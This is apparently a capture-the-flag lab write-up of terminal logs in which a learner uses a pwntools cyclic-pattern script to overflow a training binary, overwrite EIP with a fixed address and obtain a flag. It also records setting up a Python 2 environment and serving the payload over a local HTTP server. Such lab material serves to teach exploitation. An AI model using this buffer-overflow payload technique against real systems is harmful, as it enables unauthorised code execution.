 ```

payload = padding + eip

print(payload)

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ python pwn_cyclic.py > attack
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ ./intro2pwn3 < attack
I run as dizmas.
Who are you?: Getting Flag:
flag{13@rning_2_pwn!}

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ cat attack 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa6�

I'm doing on my own

┌──(witty㉿kali)-[~/buffer_overflow]
└─$ sudo apt-get install virtualenv
──(witty㉿kali)-[~/buffer_overflow]
└─$ virtualenv -p /usr/bin/python2.7 env-py2
──(witty㉿kali)-[~/buffer_overflow]
└─$ ls
attack  env-py2  pwn_cyclic.py
┌──(witty㉿kali)-[~/buffer_overflow]
└─$ source env-py2/bin/activate
┌──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ pip install pwntools
┌──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ python2 -m pip install --upgrade pip==20.3.4
┌──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ python2 -m pip install --upgrade pwntools
┌──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ pip install pathlib2
┌──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ cat pwn_cyclic.py
from pwn import *

padding = cyclic(cyclic_find('jaaa'))

eip = p32(0x8048536)

payload = padding + eip

print(payload)
──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ python pwn_cyclic.py > attack
┌──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ cat attack       
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa6�
──(env-py2)─(witty㉿kali)-[~/buffer_overflow]
└─$ python3 -m http.server 1337  
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.5.139 - - [17/Feb/2023 18:59:21] "GET /attack HTTP/1.1" 200
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ rm attack
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ ls
alphabet  flag.txt  intro2pwn3  pattern  pwn_cyclic.py  test_cyclic.c
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/cyclic$ ls -lah
total 40K
drwxrwxr-x 2 buzz   buzz   4.0K Feb 17 23:58 .
drwxrwxr-x 6 buzz   buzz   4.0K May 19  2021 ..
-rw-rw-r-- 1 buzz   buzz    105 May 19  2021 alphabet
-r--r----- 1 dizmas dizmas   22 May 19  2021 flag.txt
-rw------- 1 buzz   buzz    180 Feb 17 22:33 .gdb_history
```